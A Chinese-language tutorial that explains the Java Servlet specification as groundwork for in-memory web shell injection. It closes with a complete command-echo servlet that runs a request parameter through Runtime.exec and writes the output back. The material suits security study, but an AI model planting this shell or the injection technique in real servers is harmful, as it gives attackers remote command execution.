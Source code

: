 # Java Servlet

Java SE 中我们可以创建 socket 服务端为用户提供服务，但需要用户使用 socket 客户端，当然也可以基于 socket 实现 HTTP 协议，WebFlux 就是这样子的存在。而在 Java EE 中，Java 制定了 Servlet 规范，来规范在 Java 中提供 HTTP 服务的编写方式，其中有两个重要的概念，Servlet 与 Servlet Container。Servlet 是基于 Java 的 Web 组件，由容器进行管理，提供动态内容。Servlet 容器用于提供基于请求/响应发送模式的服务，必须支持 HTTP，并且管理 Servlet 的生命周期，使 Servlet 在一个受限的安全环境中执行。

Servlet 规范旨在让开发者基于规范开发的应用，可以部署在任意满足规范的 Web 容器上。每个 Servlet 规范版本都引入了一些新的东西，Servlet 4.0 前的版本变更可查看 [java-servlet-version-history](https://www.codejava.net/java-ee/servlet/java-servlet-version-history)。

目前常见的 Servlet 规范就是 [Servlet 3.1](https://github.com/waylau/servlet-3.1-specification/blob/master/docs), Tomcat 8.x 版本就是 Servlet 3.1 版本，从 Servlet 5.0 开始，Java EE 更名为 Jakarta EE，包路径从 javax 改为 jakarta。目前最新的 Servlet 规范是 [Servlet 6.1](https://jakarta.ee/zh/specifications/servlet/6.1/)。另外可以 [在此](https://tomcat.apache.org/whichversion.html) 查看 Tomcat 容器支持的 Servlet 规范版本。

## ServletContext

> [Servlet 3.1 规范 - 4.1 ServletContext 接口介绍](https://github.com/waylau/servlet-3.1-specification/blob/master/docs/Servlet%20Context/4.1%20Introduction%20to%20the%20ServletContext%20Interface.md)

ServletContext 定义了 Servlet 运行的 Web 应用视图，一个 Web 应用对应一个 ServletContext。

ServletContext 必须支持编程式添加 Servlet、Filter 和 Listener，对框架开发者有用处。但是规定了这些方法只能在 ServletContextListener.contexInitialized 或 ServletContainerInitializer.onStartup 应用初始化的时候调用。

```java
addServlet(String servletName, String className);
addServlet(String servletName, Servlet servlet);
addServlet(String servletName, Class <? extends Servlet> servletClass);
addFilter(String filterName, String className);
addFilter(String filterName, Filter filter);
addFilter(String filterName, Class <? extends Filter> filterClass);
void addListener(String className);
void addListener(T t);
void addListener(Class <? extends EventListener> listenerClass);
```

这就是在注入内存马时我们需要先拿 Context 的原因（已经写在了 Servlet 规范里面啦），所以针对实现了 Servlet 规范的 Web 容器都是一个套路，并且该反射调用哪些方法也写在里面了。不过在实现的时候却写了那么多代码的原因就是，其规定了这些方法只能在应用初始化的时候调用，我们注入内存马的时候已经是应用运行时了，那些代码实际上就是将方法内的具体实现重新用反射实现一遍。

## HttpServlet

99.99% 的时候，我们实现 HttpServlet 抽象类给予我们的能力就可以了，以下每个方法都对应了 HTTP Method 方法，当我们想要实现处理 Get 请求实现 doGet，处理 Post 请求就实现 doPost。

```java
protected void doGet(HttpServletRequest req, HttpServletResponse resp);
protected void doPost(HttpServletRequest req, HttpServletResponse resp);
protected void doPut(HttpServletRequest req, HttpServletResponse resp);
protected void doDelete(HttpServletRequest req, HttpServletResponse resp);
protected void doHead(HttpServletRequest req, HttpServletResponse resp);
protected void doOptions(HttpServletRequest req, HttpServletResponse resp);
protected void doTrace(HttpServletRequest req, HttpServletResponse resp);
```

Servlet 规范中规定了，对于非分布式应用来说，Servlet 容器必须确保对于每个 Servlet 定义只存在一个实例，但是 Web 服务是多线程的，所以 Servlet 是线程不安全的，在 Servlet 中的成员变量都是线程不安全的。

针对 Servlet 的路径映射提供了注解的方式和 web.xml 方法，以下两种方式都能定义访问 `/foo` 即调用 CalculatorServlet 中对应的实现方法。

```java
@WebServlet(”/foo”)
public class CalculatorServlet extends HttpServlet{
//...
}
```

```xml
<servlet>
    <servlet-name>foo</servlet-name>
    <servlet-class>org.example.CalculatorServlet</servlet-class>
</servlet>
<servlet-mapping>
    <servlet-name>foo</servlet-name>
    <url-pattern>/foo</url-pattern>
</servlet-mapping>
```

## ServletShell

shell 的目的，就是为了定义一个入口，我们能与 Web 服务器进行交互。以下定义了一个命令回显的 ServletShell。

1. doGet 调用转发给 doPost，这样我们即支持 GET 也支持 POST，防止某些情况下有请求方法的限制。
2. 交互的入口是 `request.getParameter` 支持两种方式传参。GET/POST 请求发送 `/?paramName=whoami`，也可以发送 POST 请求时使用 `application/x-www-form-urlencoded` 发送 body 参数。`multipart/form-data` 是不支持从 `request.getParameter` 获取参数的。

```java
public class CommandServlet extends HttpServlet {
    public static String paramName;

    @Override
    protected void doGet(HttpServletRequest req, HttpServletResponse resp) throws ServletException, IOException {
        doPost(req, resp);
    }

    @Override
    protected void doPost(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
        String cmd = request.getParameter(paramName);
        if (cmd != null) {
            Process exec = Runtime.getRuntime().exec(cmd);
            InputStream inputStream = exec.getInputStream();
            ServletOutputStream outputStream = response.getOutputStream();
            byte[] buf = new byte[8192];
            int length;
            while ((length = inputStream.read(buf)) != -1) {
                outputStream.write(buf, 0, length);
            }
        }
    }
}
```
